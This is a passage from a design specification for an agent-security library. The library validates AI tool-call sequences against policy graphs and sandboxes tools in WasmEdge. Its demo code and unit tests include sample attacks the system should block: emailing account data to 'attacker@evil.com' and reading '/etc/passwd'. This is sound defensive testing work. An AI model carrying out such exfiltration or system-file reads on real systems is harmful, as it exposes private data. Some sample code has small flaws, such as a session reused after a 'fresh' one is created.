│   ├── developer.json             # Developer demo policy
│   └── dos_prevention.json        # DoS demo policy
├── CMakeLists.txt
└── README.md
```

### Build System (CMake)

```cmake
cmake_minimum_required(VERSION 3.15)
project(GuardianAI VERSION 1.0.0 LANGUAGES CXX)

set(CMAKE_CXX_STANDARD 17)
set(CMAKE_CXX_STANDARD_REQUIRED ON)

# Library target
add_library(guardian
    src/guardian.cpp
    src/policy_graph.cpp
    src/policy_validator.cpp
    src/tool_interceptor.cpp
    src/session_manager.cpp
    src/sandbox_manager.cpp
    src/visualization.cpp
)

target_include_directories(guardian PUBLIC
    $<BUILD_INTERFACE:${CMAKE_CURRENT_SOURCE_DIR}/include>
    $<INSTALL_INTERFACE:include>
)

# CLI demo tool
add_executable(guardian-demo
    cli/main.cpp
    cli/scenarios.cpp
    cli/terminal_ui.cpp
)

target_link_libraries(guardian-demo PRIVATE guardian)

# Dependencies
find_package(nlohmann_json REQUIRED)  # JSON parsing
target_link_libraries(guardian PUBLIC nlohmann_json::nlohmann_json)

# WasmEdge for sandbox execution - PIN EXACT VERSION
# WasmEdge has breaking API changes between minor versions (0.12 → 0.13 → 0.14)
find_package(WasmEdge 0.14.0 EXACT REQUIRED)
target_link_libraries(guardian PUBLIC WasmEdge::wasmedge)

# Optional: Graphviz for visualization
find_package(Graphviz)
if(Graphviz_FOUND)
    target_compile_definitions(guardian PRIVATE HAVE_GRAPHVIZ)
    target_link_libraries(guardian PRIVATE ${Graphviz_LIBRARIES})
endif()

# Tests
enable_testing()
add_subdirectory(tests)

# Installation
install(TARGETS guardian guardian-demo
    LIBRARY DESTINATION lib
    ARCHIVE DESTINATION lib
    RUNTIME DESTINATION bin
)

install(DIRECTORY include/guardian DESTINATION include)
install(DIRECTORY wasm_tools DESTINATION share/guardian)
```

### Key Implementation Considerations

1. **Thread Safety**: Use `std::shared_mutex` for SessionManager and SandboxManager to support concurrent read access
2. **Memory Management**: Use smart pointers (`std::unique_ptr`, `std::shared_ptr`) for RAII
3. **Error Handling**: Use exceptions for construction errors, return codes for validation and sandbox execution
4. **Performance**: Pre-allocate vectors, use move semantics, cache validation results and Wasm modules
5. **Portability**: Avoid platform-specific code, use standard C++17 features only
6. **WasmEdge Integration**: Use WasmEdge C++ SDK for VM management, WASI for I/O control
7. **Resource Isolation**: Each tool execution gets a fresh VM instance with enforced constraints

### Wasm Tool Development

Tools must be compiled to WebAssembly with WASI support using C++:

**C++ Example** (using Emscripten or wasi-sdk):

```cpp
// read_accounts.cpp
#include <string>
#include <cstring>

extern "C" {
    // Export function for Wasm
    const char* read_accounts(const char* account_id) {
        // Tool implementation
        static char result[256];
        snprintf(result, sizeof(result), 
                 "{\"account_id\": \"%s\", \"balance\": 1000}", 
                 account_id);
        return result;
    }
}
```

**Compile with Emscripten:**
```bash
em++ read_accounts.cpp -o read_accounts.wasm \
    -s STANDALONE_WASM=1 \
    -s EXPORTED_FUNCTIONS='["_read_accounts"]' \
    -s ALLOW_MEMORY_GROWTH=1
```

**Compile with wasi-sdk (preferred for WASI support):**
```bash
/opt/wasi-sdk/bin/clang++ \
    --target=wasm32-wasi \
    -o read_accounts.wasm \
    read_accounts.cpp
```

**More Complex Example with File I/O:**

```cpp
// generate_report.cpp
#include <fstream>
#include <string>
#include <cstring>

extern "C" {
    int generate_report(const char* data, const char* output_path) {
        try {
            std::ofstream file(output_path);
            if (!file.is_open()) {
                return -1;  // File access denied by sandbox
            }
            
            file << "Report Data: " << data << std::endl;
            file.close();
            return 0;  // Success
        } catch (...) {
            return -2;  // Error
        }
    }
}
```

**Network Example:**

```cpp
// send_email.cpp
#include <string>
#include <cstring>

extern "C" {
    int send_email(const char* to, const char* subject, const char* body) {
        // In real implementation, this would use WASI sockets
        // For demo, we simulate the operation
        
        // Sandbox will enforce network_access policy
        // If network_access=false, this will be blocked by WasmEdge
        
        return 0;  // Success
    }
}
```

**Build Script (build.sh):**

```bash
#!/bin/bash
# Compile all Wasm tools

WASI_SDK=/opt/wasi-sdk
CXX=$WASI_SDK/bin/clang++

# Compile each tool
$CXX --target=wasm32-wasi -o read_accounts.wasm src/read_accounts.cpp
$CXX --target=wasm32-wasi -o send_email.wasm src/send_email.cpp
$CXX --target=wasm32-wasi -o generate_report.wasm src/generate_report.cpp

echo "All Wasm tools compiled successfully"
```

### Demo Scenario Implementations

#### Financial Exfiltration Demo (Updated with Sandbox)

```cpp
PolicyGraph create_financial_policy() {
    PolicyGraph graph;
    
    // Sensitive sources with sandbox config
    PolicyNode read_accounts = {
        "read_accounts", "read_accounts", RiskLevel::HIGH, 
        NodeType::SENSITIVE_SOURCE
    };
    read_accounts.wasm_module = "wasm_tools/read_accounts.wasm";
    read_accounts.sandbox_config = {
        .memory_limit_mb = 64,
        .timeout_ms = 5000,
        .allowed_paths = {"/data/accounts"},
        .network_access = false
    };
    graph.add_node(read_accounts);
    
    PolicyNode read_transactions = {
        "read_transactions", "read_transactions", RiskLevel::HIGH,
        NodeType::SENSITIVE_SOURCE
    };
    read_transactions.wasm_module = "wasm_tools/read_transactions.wasm";
    read_transactions.sandbox_config = {
        .memory_limit_mb = 64,
        .timeout_ms = 5000,
        .allowed_paths = {"/data/transactions"},
        .network_access = false
    };
    graph.add_node(read_transactions);
    
    // Processing nodes
    PolicyNode generate_report = {
        "generate_report", "generate_report", RiskLevel::MEDIUM,
        NodeType::DATA_PROCESSOR
    };
    generate_report.wasm_module = "wasm_tools/generate_report.wasm";
    generate_report.sandbox_config = {
        .memory_limit_mb = 128,
        .timeout_ms = 10000,
        .allowed_paths = {"/tmp/reports"},
        .network_access = false
    };
    graph.add_node(generate_report);
    
    PolicyNode encrypt = {
        "encrypt", "encrypt", RiskLevel::LOW,
        NodeType::DATA_PROCESSOR
    };
    encrypt.wasm_module = "wasm_tools/encrypt.wasm";
    encrypt.sandbox_config = {
        .memory_limit_mb = 32,
        .timeout_ms = 3000,
        .allowed_paths = {},
        .network_access = false
    };
    graph.add_node(encrypt);
    
    // External destinations
    PolicyNode send_email = {
        "send_email", "send_email", RiskLevel::MEDIUM,
        NodeType::EXTERNAL_DESTINATION
    };
    send_email.wasm_module = "wasm_tools/send_email.wasm";
    send_email.sandbox_config = {
        .memory_limit_mb = 32,
        .timeout_ms = 10000,
        .allowed_paths = {},
        .network_access = true  // Needs network for email
    };
    graph.add_node(send_email);
    
    // Safe paths only
    graph.add_edge({"read_accounts", "generate_report"});
    graph.add_edge({"generate_report", "encrypt"});
    graph.add_edge({"encrypt", "send_email"});
    
    return graph;
}

// Demo showing both policy and sandbox enforcement
void run_financial_demo() {
    Guardian guardian("policies/financial.json", "./wasm_tools");
    std::string session = guardian.create_session();
    
    // Scenario 1: Policy blocks direct exfiltration
    auto result1 = guardian.execute_tool("read_accounts", {{"id", "12345"}}, session);
    assert(result1.success);  // Policy allows, sandbox executes
    
    auto result2 = guardian.execute_tool("send_email", {{"to", "attacker@evil.com"}}, session);
    assert(!result2.success);  // Policy blocks: direct exfiltration path
    
    // Scenario 2: Policy allows but sandbox blocks unauthorized file access
    guardian.create_session();  // Fresh session
    auto result3 = guardian.execute_tool("read_accounts", {{"path", "/etc/passwd"}}, session);
    assert(!result3.success);  // Sandbox blocks: unauthorized path
    assert(result3.violation->type == SandboxViolation::FILE_ACCESS_DENIED);
}
```

#### Developer Assistant Demo (Updated with Sandbox)

```cpp
PolicyGraph create_developer_policy() {
    PolicyGraph graph;
    
    PolicyNode read_code = {
        "read_code", "read_code", RiskLevel::LOW, NodeType::NORMAL
    };
    read_code.wasm_module = "wasm_tools/read_code.wasm";
    read_code.sandbox_config = {
        .memory_limit_mb = 64,
        .timeout_ms = 5000,
        .allowed_paths = {"/workspace"},
        .network_access = false
    };
    graph.add_node(read_code);
    
    PolicyNode run_tests = {
        "run_tests", "run_tests", RiskLevel::LOW, NodeType::NORMAL
    };
    run_tests.wasm_module = "wasm_tools/run_tests.wasm";
    run_tests.sandbox_config = {
        .memory_limit_mb = 256,
        .timeout_ms = 30000,
        .allowed_paths = {"/workspace", "/tmp"},
        .network_access = false
    };
    graph.add_node(run_tests);
    
    PolicyNode approval_request = {
        "approval_request", "approval_request", RiskLevel::MEDIUM,
        NodeType::NORMAL
    };
    approval_request.wasm_module = "wasm_tools/approval_request.wasm";
    approval_request.sandbox_config = {
        .memory_limit_mb = 32,
        .timeout_ms = 5000,
        .allowed_paths = {},
        .network_access = true  // Needs to send approval request
    };
    graph.add_node(approval_request);
    
    PolicyNode deploy_production = {
        "deploy_production", "deploy_production", RiskLevel::HIGH,
        NodeType::EXTERNAL_DESTINATION
    };
    deploy_production.wasm_module = "wasm_tools/deploy_production.wasm";
    deploy_production.sandbox_config = {
        .memory_limit_mb = 128,
        .timeout_ms = 60000,
        .allowed_paths = {},
        .network_access = true
    };
    graph.add_node(deploy_production);
    
    // Allow testing without approval
    graph.add_edge({"read_code", "run_tests"});
    
    // Require approval for deployment
    graph.add_edge({"read_code", "approval_request"});
    graph.add_edge({"approval_request", "deploy_production"});
    
    return graph;
}
```

#### DoS Prevention Demo (Updated with Sandbox Timeouts)

```cpp
void run_dos_demo() {
    Guardian guardian("policies/dos_prevention.json", "./wasm_tools");
    std::string session = guardian.create_session();
    
    // Scenario 1: Policy blocks excessive repeated calls
    for (int i = 0; i < 5; i++) {
        auto result = guardian.execute_tool("search_database", {}, session);
        assert(result.success);  // Below threshold
    }
    
    // Malicious loop (above threshold)
    for (int i = 0; i < 15; i++) {
        auto result = guardian.execute_tool("search_database", {}, session);
        if (i < 10) {
            assert(result.success);  // Still below threshold
        } else {
            assert(!result.success);  // Policy blocks cycle
        }
    }
    
    // Scenario 2: Sandbox blocks infinite loop via timeout
    std::string session2 = guardian.create_session();
    auto result = guardian.execute_tool("infinite_loop_tool", {}, session2);
    assert(!result.success);
    assert(result.violation.has_value());
    assert(result.violation->type == SandboxViolation::TIMEOUT);
}
```

### Performance Optimization Strategies

1. **Graph Representation**: Use adjacency list for O(1) neighbor lookup
2. **Validation Caching**: Cache results for last 1000 sequence patterns
3. **String Interning**: Use string_view for tool names to avoid copies
4. **Memory Pooling**: Pre-allocate ToolCall objects in session manager
5. **Lock-Free Reads**: Use atomic operations for read-heavy session queries
6. **Wasm Module Caching**: Keep loaded modules in memory, reuse VM instances where safe
7. **Lazy Loading**: Load Wasm modules on first use, not at startup

### Performance Targets

- **Policy Validation**: <10ms for typical graphs (50-100 nodes)
- **Sandbox Overhead**: <50ms for simple tools (module loading + VM instantiation)
- **Total Latency**: Validation (<10ms) + Sandbox execution (tool-dependent)
- **Memory**: <100MB base + per-tool Wasm module size
- **Throughput**: >1000 validations/second on modern hardware

### Error Handling Strategy

```cpp
// Construction errors: throw exceptions
Guardian::Guardian(const std::string& policy_file, const std::string& wasm_tools_dir) {
    if (!std::filesystem::exists(policy_file)) {
        throw std::runtime_error("Policy file not found: " + policy_file);
    }
    if (!std::filesystem::exists(wasm_tools_dir)) {
        throw std::runtime_error("Wasm tools directory not found: " + wasm_tools_dir);
    }
    // ... load policy and initialize sandbox
}

// Runtime errors: return error codes in ValidationResult or SandboxResult
ValidationResult PolicyValidator::validate(const std::string& tool_name,
                                          const std::vector<ToolCall>& sequence) {
    try {
        // ... validation logic
    } catch (const std::exception& e) {
        // Fail-safe: reject on error
        return ValidationResult{
            .approved = false,
            .reason = "Internal error: " + std::string(e.what())
        };
    }
}

// Sandbox errors: return detailed violation information
SandboxResult SandboxManager::execute_tool(const std::string& tool_name,
                                          const std::map<std::string, std::string>& params,
                                          const SandboxConfig& config) {
    try {
        // ... execution logic
    } catch (const WasmEdge::TimeoutException& e) {
        return SandboxResult{
            .success = false,
            .violation = SandboxViolation{
                .type = SandboxViolation::TIMEOUT,
                .details = "Execution exceeded " + std::to_string(config.timeout_ms) + "ms"
            }
        };
    } catch (const WasmEdge::MemoryException& e) {
        return SandboxResult{
            .success = false,
            .violation = SandboxViolation{
                .type = SandboxViolation::MEMORY_EXCEEDED,
                .details = "Memory limit " + std::to_string(config.memory_limit_mb) + "MB exceeded"
            }
        };
    }
}
```

## Correctness Properties

*A property is a characteristic or behavior that should hold true across all valid executions of a system—essentially, a formal statement about what the system should do. Properties serve as the bridge between human-readable specifications and machine-verifiable correctness guarantees.*

### Property Reflection

> **Numbering Notation:** References like "Requirements X.Y" use the format `Requirement Number.Acceptance Criteria Number`. For example, "Requirements 1.2" refers to Requirement 1, Acceptance Criterion 2.

After analyzing all acceptance criteria, I identified the following redundancies:

1. **Serialization properties (1.6, 1.7, 1.8)**: Properties 1.6 and 1.7 are subsumed by the round-trip property 1.8
2. **Format-specific serialization (10.1, 10.2, 10.4, 10.5, 10.6)**: Individual format tests are covered by the comprehensive round-trip property 10.6
3. **Configuration loading (15.1, 15.7)**: Loading is validated by the round-trip property 15.7
4. **Node/edge metadata (1.4, 1.5)**: These can be combined into a single metadata preservation property
5. **Transition validation (3.3, 3.4)**: These are inverse cases that can be combined into one property
6. **Approval/rejection logging (13.1, 13.2)**: These can be combined into a single logging completeness property

The following properties provide unique validation value after eliminating redundancy:

### Property 1: Policy Graph Node Addition

*For any* valid PolicyNode, adding it to a PolicyGraph should result in the graph containing that node with the same identifier.

**Validates: Requirements 1.2**

### Property 2: Policy Graph Edge Addition

*For any* valid PolicyEdge between existing nodes, adding it to a PolicyGraph should result in the graph containing that edge.

**Validates: Requirements 1.3**

### Property 3: Policy Graph Metadata Preservation

*For any* PolicyNode or PolicyEdge with metadata, adding it to a PolicyGraph and then retrieving it should return the same metadata values.

**Validates: Requirements 1.4, 1.5**

### Property 4: Policy Graph Serialization Round-Trip

*For any* valid PolicyGraph, serializing to JSON or DOT format and then deserializing should produce an equivalent graph with the same nodes, edges, and metadata.

**Validates: Requirements 1.8, 10.6**

### Property 5: Tool Call Capture Completeness

*For any* tool invocation, the Tool_Interceptor should capture a ToolCall object containing the tool name, all parameters, and a timestamp.

**Validates: Requirements 2.1, 2.2**

### Property 6: Action Sequence Growth

*For any* session, after N tool calls are intercepted, the Action_Sequence should have length N.

**Validates: Requirements 2.3**

### Property 7: Interceptor-Validator Communication

*For any* intercepted tool call, the data passed to the Policy_Validator should match the data captured by the Tool_Interceptor.

**Validates: Requirements 2.4**

### Property 8: Approved Execution Proceeds

*For any* tool call that the Policy_Validator approves, the Tool_Interceptor should allow execution to proceed.

**Validates: Requirements 2.5**

### Property 9: Rejected Execution Blocked

*For any* tool call that the Policy_Validator rejects, the Tool_Interceptor should block execution and return an error.

**Validates: Requirements 2.6**

### Property 10: Parameter Preservation

*For any* approved tool call, the parameters passed to the actual tool execution should be identical to the original parameters captured by the interceptor.

**Validates: Requirements 2.7**

### Property 11: Transition Validation

*For any* pair of tools (from_tool, to_tool), the Policy_Validator should approve the transition if and only if an edge exists from from_tool to to_tool in the Policy_Graph.

**Validates: Requirements 3.1, 3.3, 3.4**

### Property 12: Validation Determinism

*For any* Action_Sequence and Policy_Graph, validating the same sequence multiple times should always produce the same approval decision.

**Validates: Requirements 3.7**

### Property 13: Validation Result Structure

*For any* validation operation, the returned ValidationResult should contain a boolean approval status and a non-empty reason message.

**Validates: Requirements 3.6**

### Property 14: Cycle Detection Accuracy

*For any* Action_Sequence containing a tool repeated more than the configured threshold times consecutively, the Policy_Validator should detect a cycle and include cycle information (start index, length, tools) in the result.

**Validates: Requirements 4.1, 4.6**

### Property 15: Cycle Threshold Enforcement

*For any* tool with a configured cycle threshold T, the Policy_Validator should approve the first T consecutive calls and reject the (T+1)th call.

**Validates: Requirements 4.2, 4.5**

### Property 16: Cycle Information in Rejection

*For any* tool call rejected due to cycle detection, the rejection reason should contain the cycle start index and cycle length.

**Validates: Requirements 4.4**

### Property 17: Per-Tool Cycle Thresholds

*For any* two different tools with different configured thresholds, the Policy_Validator should enforce each tool's specific threshold independently.

**Validates: Requirements 4.3**

### Property 18: Node Type Assignment

*For any* PolicyNode, setting its node_type to SENSITIVE_SOURCE or EXTERNAL_DESTINATION should be preserved when the node is retrieved from the graph.

**Validates: Requirements 5.1, 5.2**

### Property 19: Direct Exfiltration Blocking

*For any* Action_Sequence that contains a direct path from a node marked as SENSITIVE_SOURCE to a node marked as EXTERNAL_DESTINATION (without intermediate DATA_PROCESSOR nodes), the Policy_Validator should reject the final tool call and identify it as an exfiltration attempt.

**Validates: Requirements 5.3**

### Property 20: Safe Path Approval

*For any* Action_Sequence that follows a path from SENSITIVE_SOURCE through at least one DATA_PROCESSOR node to EXTERNAL_DESTINATION, the Policy_Validator should approve the sequence.

**Validates: Requirements 5.4**

### Property 21: Visualization Output Generation

*For any* PolicyGraph, the Visualization_Engine should produce non-empty output in the requested format (DOT, SVG, PNG, or ASCII).

**Validates: Requirements 6.1, 6.6**

### Property 22: Sequence Path Highlighting

*For any* Action_Sequence and PolicyGraph, the visualization output should contain visual indicators for each tool in the sequence.

**Validates: Requirements 6.2**

### Property 23: Violation Highlighting

*For any* validation result with approved=false, the visualization should highlight the rejected transition distinctly from approved transitions.

**Validates: Requirements 6.3**

### Property 24: Visualization Metadata Inclusion

*For any* PolicyGraph visualization, the output should contain all node tool names, risk levels, and edge transition conditions.

**Validates: Requirements 6.4, 6.5**

### Property 25: Invalid Policy Error Messages

*For any* invalid policy file (malformed JSON, missing required fields, invalid node references), the Policy_Graph parser should return a descriptive error message.

**Validates: Requirements 10.3**

### Property 26: Syntax Error Location

*For any* policy file with syntax errors, the error message should include the line number or field name where the error occurred.

**Validates: Requirements 10.7**

### Property 27: Session ID Uniqueness

*For any* two sessions created by the Guardian_AI, their session identifiers should be different.

**Validates: Requirements 11.1**

### Property 28: New Session Initialization

*For any* newly created session, its Action_Sequence should be empty (length 0).

**Validates: Requirements 11.2**

### Property 29: Session Isolation

*For any* two concurrent sessions, appending a tool call to one session's Action_Sequence should not affect the other session's Action_Sequence.

**Validates: Requirements 11.3, 11.6**

### Property 30: Session Persistence

*For any* session that is ended, calling persist_session should create a file containing the complete Action_Sequence that can be loaded later.

**Validates: Requirements 11.4**

### Property 31: Session Query Round-Trip

*For any* session with an Action_Sequence, querying the sequence by session ID should return the exact sequence that was appended.

**Validates: Requirements 11.5**

### Property 32: Validation Logging Completeness

*For any* tool call validation (approved or rejected), the Guardian_AI should create a log entry containing timestamp, tool name, and decision reason.

**Validates: Requirements 13.1, 13.2**

### Property 33: Log Level Filtering

*For any* configured log level L, log messages with severity less than L should not appear in the output, while messages with severity >= L should appear.

**Validates: Requirements 13.3**

### Property 34: Policy Load Error Logging

*For any* policy file that fails to load, the Guardian_AI should create an ERROR-level log entry with a descriptive message.

**Validates: Requirements 13.4**

### Property 35: JSON Log Export Validity

*For any* log export operation, the output should be valid JSON that can be parsed by a standard JSON parser.

**Validates: Requirements 13.5**

### Property 36: Fail-Safe Error Handling

*For any* internal error during validation, the Guardian_AI should log the error and return a ValidationResult with approved=false.

**Validates: Requirements 13.6**

### Property 37: Arbitrary Path Length Support

*For any* Action_Sequence of length N (where N >= 0), the Policy_Validator should complete validation without errors.

**Validates: Requirements 14.2**

### Property 38: Multiple Valid Paths

*For any* Action_Sequence where multiple valid paths exist in the Policy_Graph from the start to the current tool, the Policy_Validator should approve if at least one path matches.

**Validates: Requirements 14.3**

### Property 39: Validation Caching

*For any* Action_Sequence pattern that is validated twice with the same Policy_Graph, the second validation should return the same result as the first (demonstrating cache correctness).

**Validates: Requirements 14.4**

### Property 40: Path Information in Results

*For any* validation operation, the ValidationResult should contain either the matched path (if approved) or the violation point (if rejected).

**Validates: Requirements 14.6**

### Property 41: Configuration Application

*For any* valid configuration setting (cycle threshold, timeout, log level, policy path), loading the configuration should result in the Guardian_AI using that setting.

**Validates: Requirements 15.2, 15.3, 15.4, 15.5**

### Property 42: Configuration Fallback

*For any* invalid configuration value, the Guardian_AI should use a safe default value and create a WARN-level log entry.

**Validates: Requirements 15.6**

**Note on Policy Correctness**: Guardian AI enforces policies as defined, but cannot guarantee policy correctness. Like firewall rules or RBAC configurations, policies must be authored, reviewed, and tested by security administrators. The system provides visualization, version control support (JSON/DOT), audit logging, and fail-safe defaults to aid in policy management, but policy quality is ultimately a configuration concern, not an architectural one.

### Property 43: Configuration Round-Trip

*For any* valid configuration object, serializing to JSON and then parsing should produce an equivalent configuration with the same settings.

**Validates: Requirements 15.7**

### Property 44: Guardian Initialization

*For any* valid policy graph file path, initializing a Guardian instance should succeed and allow subsequent validation calls.

**Validates: Requirements 16.3**

### Property 45: Validation Result Structure

*For any* call to validate_tool_call(), the returned ValidationResult should contain an approval status (bool), reason message (string), and suggested alternatives (vector<string>).

**Validates: Requirements 16.5**

### Property 46: API Misuse Error Messages

*For any* incorrect library usage (invalid session ID, null parameters, etc.), the Guardian_AI should provide a clear error message indicating the problem.

**Validates: Requirements 16.8**

### Property 47: CLI Scenario Parsing

*For any* valid scenario flag (--scenario=financial, --scenario=developer, --scenario=dos), the CLI tool should execute the corresponding demo without errors.

**Validates: Requirements 17.2, 17.3**

### Property 48: CLI Custom Policy Loading

*For any* valid policy file path provided via --policy flag, the CLI tool should load and use that policy for validation.

**Validates: Requirements 17.7**

### Property 49: CLI Summary Statistics

*For any* completed demo scenario, the CLI output should include total calls count, blocked calls count, and violation types.

**Validates: Requirements 17.9**

## Error Handling

### Error Categories

1. **Construction Errors** (throw exceptions):
   - Policy file not found
   - Invalid policy format
   - Missing required configuration
   - Wasm tools directory not found
   - WasmEdge SDK initialization failure

2. **Runtime Errors** (return error codes):
   - Invalid session ID
   - Tool not defined in policy
   - Validation timeout
   - Wasm module not found
   - Wasm module loading failure

3. **Sandbox Violations** (return SandboxResult with violation):
   - Memory limit exceeded
   - Execution timeout
   - Unauthorized file access
   - Unauthorized network access

4. **Internal Errors** (log and fail-safe):
   - Graph traversal errors
   - Memory allocation failures
   - Unexpected state
   - WasmEdge VM crashes

### Error Handling Patterns

```cpp
// Pattern 1: Construction validation
Guardian::Guardian(const std::string& policy_file) {
    if (!validate_policy_file(policy_file)) {
        throw std::invalid_argument("Invalid policy file: " + policy_file);
    }
}

// Pattern 2: Runtime validation
ValidationResult PolicyValidator::validate(...) {
    if (!session_manager_->has_session(session_id)) {
        return ValidationResult{
            .approved = false,
            .reason = "Invalid session ID: " + session_id
        };
    }
}

// Pattern 3: Fail-safe on internal errors
ValidationResult PolicyValidator::validate(...) {
    try {
        // ... validation logic
    } catch (const std::exception& e) {
        logger_->error("Internal validation error: {}", e.what());
        return ValidationResult{
            .approved = false,
            .reason = "Internal error - failing safe"
        };
    }
}
```

### Logging Strategy

- **DEBUG**: Graph traversal details, cache hits/misses, Wasm module loading, VM instantiation
- **INFO**: Tool call approvals, session lifecycle events, sandbox execution metrics
- **WARN**: Configuration fallbacks, performance degradation, sandbox constraint warnings
- **ERROR**: Policy load failures, validation errors, internal errors, Wasm loading failures, sandbox violations

## Testing Strategy

### Dual Testing Approach

Guardian AI requires both unit tests and property-based tests for comprehensive coverage:

- **Unit tests**: Verify specific examples, edge cases, and error conditions
- **Property tests**: Verify universal properties across all inputs

Unit tests focus on concrete scenarios (e.g., the financial exfiltration demo), while property tests validate general correctness across randomized inputs (e.g., any graph serialization round-trips correctly).

### Property-Based Testing Configuration

We will use **RapidCheck** (C++ property-based testing library) for implementing correctness properties.

**Configuration**:
- Minimum 100 iterations per property test
- Each test tagged with: `Feature: guardian-ai, Property {N}: {property_text}`
- Generators for: PolicyGraph, ToolCall, ActionSequence, Config

**Example Property Test**:

```cpp
#include <rapidcheck.h>

// Feature: guardian-ai, Property 4: Policy Graph Serialization Round-Trip
TEST_CASE("Policy graph JSON serialization round-trip") {
    rc::check("serializing then deserializing produces equivalent graph",
              [](const PolicyGraph& graph) {
        std::string json = graph.to_json();
        PolicyGraph restored = PolicyGraph::from_json(json);
        RC_ASSERT(graphs_equivalent(graph, restored));
    });
}

// Feature: guardian-ai, Property 11: Transition Validation
TEST_CASE("Transition validation matches graph edges") {
    rc::check("validator approves iff edge exists",
              [](const PolicyGraph& graph, 
                 const std::string& from_tool,
                 const std::string& to_tool) {
        PolicyValidator validator(graph, Config{});
        bool has_edge = graph.has_edge(from_tool, to_tool);
        bool approved = validator.check_transition(from_tool, to_tool);
        RC_ASSERT(approved == has_edge);
    });
}
```

### Unit Testing Strategy

**Focus Areas**:
1. Demo scenarios (financial, developer, DoS) with both policy and sandbox enforcement
2. Edge cases (empty sequences, first tool call, single-node graphs)
3. Error conditions (invalid files, malformed JSON, missing nodes, Wasm loading failures)
4. Integration points (interceptor-validator, validator-sandbox, sandbox-wasm)
5. Sandbox constraint violations (memory, timeout, file access, network)

**Example Unit Test (Policy + Sandbox)**:

```cpp
TEST_CASE("Financial exfiltration demo blocks direct path") {
    Guardian guardian("policies/financial.json", "./wasm_tools");
    std::string session = guardian.create_session();
    
    // Policy allows read_accounts
    auto result1 = guardian.execute_tool("read_accounts", {{"id", "12345"}}, session);
    REQUIRE(result1.success);
    
    // Policy blocks direct exfiltration
    auto result2 = guardian.execute_tool("send_email", {{"to", "attacker@evil.com"}}, session);
    REQUIRE(!result2.success);
    REQUIRE(result2.validation_result.detected_exfiltration.has_value());
}

TEST_CASE("Sandbox blocks unauthorized file access") {
    Guardian guardian("policies/financial.json", "./wasm_tools");
    std::string session = guardian.create_session();
    
    // Policy allows, but sandbox blocks unauthorized path
    auto result = guardian.execute_tool("read_accounts", {{"path", "/etc/passwd"}}, session);
    REQUIRE(!result.success);
    REQUIRE(result.violation.has_value());
    REQUIRE(result.violation->type == SandboxViolation::FILE_ACCESS_DENIED);
}

TEST_CASE("Sandbox enforces memory limits") {
    Guardian guardian("policies/test.json", "./wasm_tools");
    std::string session = guardian.create_session();
    
    // Tool attempts to allocate excessive memory
    auto result = guardian.execute_tool("memory_hog", {{"size_mb", "1000"}}, session);
    REQUIRE(!result.success);
    REQUIRE(result.violation.has_value());
    REQUIRE(result.violation->type == SandboxViolation::MEMORY_EXCEEDED);
}

TEST_CASE("Sandbox enforces timeouts") {
    Guardian guardian("policies/test.json", "./wasm_tools");
    std::string session = guardian.create_session();
    
    // Tool runs infinite loop
    auto result = guardian.execute_tool("infinite_loop", {}, session);
    REQUIRE(!result.success);
    REQUIRE(result.violation.has_value());
    REQUIRE(result.violation->type == SandboxViolation::TIMEOUT);
}
```

### Test Coverage Goals

- **Line Coverage**: >90% for core validation and sandbox logic
- **Branch Coverage**: >85% for error handling paths
- **Property Coverage**: All 49 correctness properties implemented
- **Demo Coverage**: All 3 demo scenarios have passing tests (policy + sandbox)
- **Sandbox Coverage**: All constraint types tested (memory, timeout, file, network)
- **WasmEdge Integration**: Module loading, VM instantiation, WASI configuration tested

### Performance Testing

While not part of unit/property tests, performance requirements will be validated through:

1. **Validation Microbenchmarks**: Measure policy validation latency for graphs of size 10, 50, 100, 200 nodes (target: <10ms)
2. **Sandbox Microbenchmarks**: Measure sandbox overhead for simple tools (target: <50ms)
3. **End-to-End Latency**: Measure total time from interception to result (validation + sandbox)
4. **Throughput Tests**: Measure calls/second under sustained load
5. **Memory Profiling**: Track memory usage for sessions with 100, 1000, 10000 tool calls
6. **Wasm Module Loading**: Measure module load and cache performance
7. **Visualization Benchmarks**: Measure rendering time for graphs up to 100 nodes

These will be implemented as separate benchmark executables using Google Benchmark or similar.

### WasmEdge Integration Tests

Specific tests for sandbox functionality:

1. **Module Loading**: Valid/invalid Wasm modules, missing files, corrupted modules
2. **Memory Constraints**: Tools that respect limits vs. tools that exceed limits
3. **Timeout Enforcement**: Fast tools vs. slow/infinite loop tools
4. **File Access Control**: Allowed paths vs. unauthorized paths
5. **Network Control**: Tools with/without network permission
6. **WASI Functionality**: File I/O, environment variables, command-line args
7. **Concurrent Execution**: Multiple tools executing simultaneously in separate VMs
8. **Resource Cleanup**: VM teardown, memory reclamation after execution

